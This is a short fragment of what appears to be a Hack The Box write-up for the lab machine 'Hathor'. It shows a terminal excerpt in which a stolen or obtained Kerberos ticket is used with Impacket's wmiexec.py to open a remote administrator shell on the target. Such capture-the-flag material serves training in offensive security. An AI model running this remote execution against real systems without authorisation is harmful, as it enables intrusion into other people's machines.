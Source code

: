     oxdf@hacky$ KRB5CCNAME=/tmp/krb5cc_1000 wmiexec.py windcorp.htb/administrator@hathor.windcorp.htb -k 
    -no-pass
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>
    

[](/2022/11/19/htb-hathor.html)

